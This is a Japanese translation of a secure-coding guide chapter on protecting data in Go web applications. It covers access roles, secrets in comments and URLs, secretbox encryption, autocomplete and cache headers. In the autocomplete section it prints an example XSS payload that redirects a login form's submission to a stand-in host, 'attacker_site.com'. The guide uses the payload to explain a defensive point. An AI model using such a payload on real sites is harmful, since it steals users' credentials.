 データの保護
===============

現在、データの保護はセキュリティ全般で最も重要なことの1つです。
以下みたいになったら困りますよね。

![All your data are belong to us](files/cB52MA.jpeg)

簡単に言えば、Webアプリケーションのデータは保護される必要があるのです。そのため、このセクションではデータを保護するさまざまな方法について見ていきます。

最初に取り組むべきことの1つは、ユーザーそれぞれに対して適切な権限を実装し、本当に必要な機能だけにアクセスを制限することです。

例えば、次のようなユーザー・ロールを持つ単純なオンライン・ストアを考えてみましょう。

* セールスユーザー: カタログの閲覧のみ許可
* マーケティングユーザー: 統計情報の確認が可能
* 開発者: ページとウェブアプリケーションの設定変更を許可する

また、システム（ウェブサーバー）構成において、正しいパーミッションを定義するべきです。

最初にやるべきことは各ユーザーに適切なロールを定義することです。

役割の分離とアクセス制御については、さらに、[アクセス制御][5]で説明します。

## Remove sensitive information

Temporary and cache files which contain sensitive information should be removed
as soon as they're not needed. If you still need some of them, move them to
protected areas or encrypt them.

## 機密情報の削除

機密情報を含む一時ファイルやキャッシュファイルは、不要になり次第すぐに削除しましょう。
まだ必要な場合は、保護された場所に移動するか、暗号化しましょう。

### コメント

開発者がソースコードに Todo リストのようなコメントを残すことがあります。
最悪の場合、開発者がクレデンシャルを残すこともあります。

```go
// Secret API endpoint - /api/mytoken?callback=myToken
fmt.Println("Just a random code")
```

上記の例では、開発者がコメント内にエンドポイントの情報を残しています。このエンドポイントが守られていない場合、悪意あるユーアーに利用されてしまうかもしれません。

### URL

HTTP GET メソッドで機密情報を渡すことは、次のような理由でウェブアプリケーションの脆弱性を残すことになります。

1. HTTPS を使用していない場合、MITM 攻撃によりデータを傍受される可能性があります。
2. ブラウザの履歴には、ユーザーの情報が保存されています。URLに
   セッションID、ピン、トークンなど、有効期限のない（あるいはエントロピーの低い）ものが含まれていると、それらを盗まれる可能性があります。
3. 検索エンジンは、ページ内で発見されたURLを保存する
4. HTTPサーバー（例：Apache、Nginx）は、通常、要求されたURLを、クエリ文字列を含めて、暗号化されていない状態でログファイル (例: `access_log`) に書き込みます。

```go
req, _ := http.NewRequest("GET", "http://mycompany.com/api/mytoken?api_key=000s3cr3t000", nil)
```

ウェブアプリケーションが `api_key` を使って、第三者のウェブサイトから情報を取得しようとした場合に、もしも同一のネットワーク内で誰かが盗聴していたら、もしくはプロキシを使っていたとしたら、その情報は盗まれるかもしれません。これは HTTPS を使っていないためです。

GET で渡されたパラメータ(クエリストリング)は、HTTP と HTTPS のどちらを使用しているかに関係なく、ブラウザの履歴やサーバーのアクセスログに綺麗に残ることに注意してください。

HTTPS は、クライアントとサーバー以外の第三者が、やり取りしたデータを取得できないようにするための方法です。
`api_key` のような機密データは、可能な限りリクエストボディか何らかのヘッダに格納する必要があります。同様に、可能な限り一回限りのセッション ID やトークンを使用します。

### 情報は力なり

本番環境上のアプリケーションやシステムのドキュメントは常に削除しましょう。
ドキュメントによっては、ウェブアプリケーションを攻撃するために使われる可能性のあるバージョンや機能を明かしてしまうかもしれません。
(例: Readme, Changelog, etc.)

開発者であるあなたは、ユーザーが使わなくなった機密情報を削除できるようにすべきです。
を削除できるようにする必要があります。例えば、ユーザーが自分のアカウントに期限切れのクレジットカードを持っていて、それを削除したい場合、ウェブアプリケーションはそれを許可すべきです。

不要になった情報は、すべてアプリケーションから削除しなければなりません。

#### 暗号化がカギ

機密性の高い情報は全てウェブアプリケーション内で暗号化する必要があります。
軍用レベルの [Go で利用可能な暗号化][2] を使用してください。詳細については
[暗号に関するプラクティス][3]のセクションを参照してください。

あなたのコードを他の場所に実装する必要がある場合は、バイナリをビルドして共有してください。
リバースエンジニアリングを防ぐ術はありません。

コードにアクセスするための異なるパーミッションを用意し、ソースコードへのアクセスを制限することは最良の方法です。

パスワードやコネクションストリング、平文やセキュリティ的に不十分な形式の機密情報をクライアント側とサーバー側の両方で保存しないでください。（データベースコネクションストリングを保護する方法については、[データベースセキュリティ][4]の例を参照してください）。
安全でない形式（例えば、Adobe Flashやコンパイルされたコード）での埋め込みも含みます。

以下は、外部パッケージを使ってGoで暗号化するシンプルな例です。
`golang.org/x/crypto/nacl/secretbox`:

```go
// Load your secret key from a safe place and reuse it across multiple
// Seal calls. (Obviously don't use this example key for anything
// real.) If you want to convert a passphrase to a key, use a suitable
// package like bcrypt or scrypt.
secretKeyBytes, err := hex.DecodeString("6368616e676520746869732070617373776f726420746f206120736563726574")
if err != nil {
    panic(err)
}

var secretKey [32]byte
copy(secretKey[:], secretKeyBytes)

// You must use a different nonce for each message you encrypt with the
// same key. Since the nonce here is 192 bits long, a random value
// provides a sufficiently small probability of repeats.
var nonce [24]byte
if _, err := rand.Read(nonce[:]); err != nil {
    panic(err)
}

// This encrypts "hello world" and appends the result to the nonce.
encrypted := secretbox.Seal(nonce[:], []byte("hello world"), &nonce, &secretKey)

// When you decrypt, you must use the same nonce and key you used to
// encrypt the message. One way to achieve this is to store the nonce
// alongside the encrypted message. Above, we stored the nonce in the first
// 24 bytes of the encrypted text.
var decryptNonce [24]byte
copy(decryptNonce[:], encrypted[:24])
decrypted, ok := secretbox.Open([]byte{}, encrypted[24:], &decryptNonce, &secretKey)
if !ok {
    panic("decryption error")
}

fmt.Println(string(decrypted))
```

出力は以下です。

```
hello world
```

## 不要なものは無効にする

攻撃ベクトルを減らすためのもう一つの簡単で効率的な方法は、システム上で不要なアプリケーションやサービスを無効にすることです。

### オートコンプリート

[Mozilla のドキュメント][1]によると、次のようにしてフォーム全体のオートコンプリートを無効にすることができます。


```html
<form method="post" action="/form" autocomplete="off">
```

特定のフォーム要素に対しては以下のようにします。

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

特に、ログインフォームのオートコンプリートを無効にする場合に便利です。ログインページに XSS ベクターが存在する場合を想像してみてください。
悪意のあるユーザが次のようなペイロードを作成した場合、

```javascript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

これは、オートコンプリートされたフォームフィールドを `attacker_site.com` に送信します。

### キャッシュ

機密情報を含むページのキャッシュ制御は無効にする必要があります。
次のスニペットに示すように、対応するヘッダーフラグを設定することで実現できます。

```go
w.Header().Set("Cache-Control", "no-cache, no-store")
w.Header().Set("Pragma", "no-cache")
```


`no-cache` 値は、キャッシュされた応答を使用する前にサーバーで再検証するよう、ブラウザに指示します。これはブラウザにキャッシュをしないように指示するものではありません。

一方、`no-store` 値はキャッシュを無効にするためのものです。
リクエストやレスポンスのいかなる部分も保存させません。

`Pragma` ヘッダーは HTTP/1.0 リクエストをサポートするために存在します。

[1]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
[2]: https://godoc.org/golang.org/x/crypto
[3]: ../cryptographic-practices/README.md
[4]: ../database-security/README.md
[5]: ../access-control/README.md